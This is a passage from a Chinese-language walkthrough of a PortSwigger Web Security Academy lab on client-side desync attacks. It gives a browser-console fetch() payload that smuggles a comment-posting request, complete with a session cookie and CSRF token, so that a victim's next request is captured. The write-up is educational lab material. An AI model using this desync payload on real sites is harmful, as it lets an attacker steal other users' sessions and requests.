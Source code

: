 [![](assets/1705301772-377add662e09655c95270adbd0e31a4a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114183422-7b17578c-b2c8-1.png)  
随后打开一个单独的 Chrome 浏览器示例，转到漏洞利用服务器，打开浏览器开发人员工具，转到 Console 选项卡使用 fetch()API 复制上一节中的攻击，在这里我们有意触发 CORS 错误以阻止浏览器遵循重定向，然后使用 catch() 方法继续攻击序列，我们此时可以看到两个请求：

-   已触发 CORS 错误的主请求
-   对主页的请求收到 404 响应

证实了可以从浏览器触发去同步矢量

```bash
fetch('https://0a40005204ca7973811de89500e000af.h1-web-security-academy.net', {
        method: 'POST',
        body: 'POST /en/post/comment HTTP/1.1\r\nHost: 0a40005204ca7973811de89500e000af.h1-web-security-academy.net\r\nCookie: session=IVyZ195O8xf57pxHj67NWTnINcMnLhx5; _lab_analytics=Ep2xqyavvsZdf4X8ozQb4i0y0HvPKRxQeJN9sIHk91JVUMoZBydIofsyqWL72BINYScmFaJnfLP1NaLgczuV1Deg5ighDljgshun8uVDCmNVXEWaYtSALPEfDLHnSesd2Q0yEYPBtj5SAEVXEXeF8s832NQFFArwAhwlwU8ETbp7luLXJe66IKsp9aBd69gsqtnMsIXGhOoZkqkJ9DZqebES82Vk2xetArPJLiZbS6j9TnBLgH5D6as1sTVQFQi0\r\nContent-Length: 300\r\nContent-Type: x-www-form-urlencoded\r\nConnection: keep-alive\r\n\r\ncsrf=oeSUFWMfMoMJbOyXez7fU3KDpGKjbYdU&postId=2&name=QWQQ&email=test123@163.com&website=http://www.baidu.com&comment=',
        mode: 'cors',
        credentials: 'include',
    }).catch(() => {
        fetch('https://0a40005204ca7973811de89500e000af.h1-web-security-academy.net/capture-me', {
        mode: 'no-cors',
        credentials: 'include'
    })
})
```

[![](assets/1705301772-934dda1f5f3b81d3dfc3180b6f7d5cc0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114183521-9e44ceba-b2c8-1.png)
